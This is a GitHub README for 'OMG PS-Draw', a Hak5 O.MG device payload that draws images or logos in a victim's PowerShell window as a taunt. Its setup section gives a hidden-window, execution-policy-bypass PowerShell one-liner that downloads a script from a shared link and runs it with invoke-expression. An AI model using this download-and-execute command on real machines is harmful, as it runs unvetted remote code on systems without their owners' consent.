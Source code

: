 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG PS-Draw

A script used to generate and draw images in the Powershell Window, used to leave a signature or perhaps taunt victims

## Description

These two programs use two different method to draw out images in the Powershell Window. 
PS-Draw will convert an image you download into a BMP file estiamte the used colors based off the 16 available powershell colors 
then draw your image out in the powershell window. This process is not exact and needed testing of multiple images to find one that works well. 

PS-Custom-Draw generates images to be drawn in the Powershell Window based off pre-configured arrays I put together already included in the file itself. 
These images look significantly cleaner due to the fact they were drawn and coded specifically for this purpose.

## Getting Started

### Dependencies

* DropBox or another image hosting service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in OMG Device
* Invoke-WebRequest will be used to download the image 

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The image will be converted into a BMP file
* An algorithm will be used to find the closest matching colors available in the powershell window
* The image will be generated in the powershell window

This is an example of an image I used with the PS-Draw command 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/omg-ico.png)

This is how the iamge is interpreted and drawn out  
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/PS-Draw.jpg)

* The PS-Custom-Draw operates a little differently 
* One of the preconfigured arrays is piped into the command to generate an image 
 
* "$col | PS-Draw"  - This first one will show the available colors to be used as seen below
 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/ps-colors.jpg)


* "$omg | PS-Draw"  - This will draw out the OMG logo as seen below
 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/ps-omg.jpg)


* "$hak5 | PS-Draw" - This will draw out the Hak5 logo as seen below
 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/ps-hak5.jpg)


<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Arf

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-PS-Draw)
</p>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

